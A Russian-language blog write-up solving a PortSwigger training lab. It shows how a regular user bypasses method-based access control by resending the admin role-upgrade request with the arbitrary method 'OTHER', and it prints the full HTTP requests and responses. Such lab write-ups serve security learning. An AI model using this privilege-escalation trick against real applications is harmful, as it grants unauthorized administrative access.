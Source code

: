 ```yaml
---
title: "Method-based access control can be circumvented"
date: 2025-07-24
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented"
classes: wide
---
```


Известны креды от аккаунта администратора `administrator:admin`. Для решения нужно повысить свой аккаунт до администратора. Для входа можно использовать данные `wiener:peter`.

```
https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net/
```

## Solution

Итак, начну по порядку. Залогинюсь в личный кабинет админа, чтобы собрать пример запроса:

```http
POST /admin-roles HTTP/2
Host: 0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net
Cookie: session=pTr8IOmnMWU0CqHp6LIu9EYyhkkyWaS5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=carlos&action=upgrade
```

Пример собрали. Теперь возвращаюсь к жизни обычного смертного. Подставляю другое значение сессии, ибо и дурак сможет выполнять команды от лица админа) Подставлю свой логин в поле `username`. Как и ожидалось — запрет:

```http
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"Unauthorized"
```

Попробую изменить метод на `OTHER`:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

"Missing parameter 'username'"
```

А вот это уже интереснее:

```http
OTHER /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net
Cookie: session=LQVLBuPECrAuzyle1GdiH47BrNf1p8Nh
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ндаа...

```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Я думал, что будет какой-нибудь специфичный метод. Или хотя бы `PUT`. Но лаба решена, чего жаловаться то?)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Method-based_access_control_can_be_circumvented/1.png){: height="200" .align-center}
